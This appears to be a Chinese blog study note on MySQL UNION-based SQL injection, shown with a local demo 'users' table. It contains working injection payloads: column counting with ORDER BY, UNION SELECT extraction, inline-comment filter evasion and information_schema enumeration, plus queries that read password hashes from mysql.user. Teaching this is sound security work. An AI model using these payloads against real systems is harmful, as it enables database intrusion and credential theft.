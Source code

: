 ```yaml
---
layout: post
title: "MySQL UNION 注入小结"
subtitle: "MySQL UNION 注入小结"
date: 2019-08-11
author: ppbibo
category: 习信息安全系列
finished: true
---
```

[TOC]

```mysql
mysql> select * from users order by 3;
+----+-------------+---------+---------+------+--------+
| id | name        | chinese | english | math | Strong |
+----+-------------+---------+---------+------+--------+
|  6 | ZhangJinbao |      55 |      85 |   45 |     10 |
|  2 | LiJin       |      67 |      53 |   95 |     10 |
|  7 | HuangRong   |      75 |      65 |   30 |     10 |
|  5 | LiLaicai    |      82 |      84 |   67 |     10 |
|  3 | WangWu      |      87 |      78 |   77 |     10 |
|  4 | LiYi        |      88 |      98 |   92 |     10 |
|  1 | XiaoMing    |      89 |      78 |   90 |     10 |
+----+-------------+---------+---------+------+--------+
7 rows in set (0.00 sec)

```



**UNION 注入**



```mysql
SELECT * FROM users WHERE id = 1 ORDER BY 6;

SELECT * FROM users WHERE id = 1 UNION SELECT 1,2,3,4,5,6;

SELECT * FROM users WHERE id = 1 UNION SELECT 1,2,version(),database(),5,6 FROM users #LIMIT 1;

```



**内联注释**



```mysql
SELECT * FROM users WHERE id = 1 /*!ORDER*/ BY/**/6;

SELECT * FROM users WHERE id = 1/*!*/UNION/**/SELECT 1,2,@@version,database/*asdasd*/(),5,6 FROM users #LIMIT 1;



SELECT * FROM users WHERE id = 0/*!*/OR 1 = 1 UNION/**/SELECT 1,2,@@version,database/*asdasd*/(),5,6 FROM users;
```





**解释**

ORDER BY 子句用来排序使用，**与主查询相匹配**。



**例如：**

```mysql
SELECT * FROM users WHERE id = 1 ORDER BY 6;
```

这里主查询是 `*` 就是所有列。



```mysql
SELECT name FROM users WHERE id = 1 ORDER BY 1;
```

这里查询的为 name  一个列，如果order by 2 报错提示未知列；

*/\*语句* *ERROR 1054 (42S22): Unknown column '2' in 'order clause’ 。\*/*



**查询 mysql 密码 (** 必须为ROOT权限，才可以进行跨裤操作 **)**

```mysql
SELECT host,user,authentication_string FROM mysql.user;   -- MYSQL 8.0

SELECT host,user,password FROM mysql.user;  -- MYSQL 5.5
```



**/\*获取当前用户可操作的数据库\*/**

```mysql
SELECT * FROM users WHERE id=1 UNION SELECT 1,2,3,4,5,group_concat(schema_name) FROM information_schema.schemata;
```



**/\*获取指定数据库表名\*/**

```mysql
SELECT * FROM users WHERE id=1 UNION SELECT 1,2,3,4,5,TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='python';
```



**/\*获取指定表的列名\*/**

```mysql
SELECT * FROM users WHERE id=1 UNION SELECT 1,2,3,4,5,COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='python' AND TABLE_NAME='users';
```



**/\*获取指定列的内容\*/**

```mysql
SELECT * FROM users WHERE id=1 UNION SELECT 1,2,3,4,name,Strong FROM users;
```



**Tips:**

​        *一般都是有 information_schema这个数据裤的，这个数据裤储存了当前用户的一些信息，数据库、数据表等信息。*



group_concat()，手册上说明:该函数返回带有来自一个组的连接的非NULL值的字符串结果。


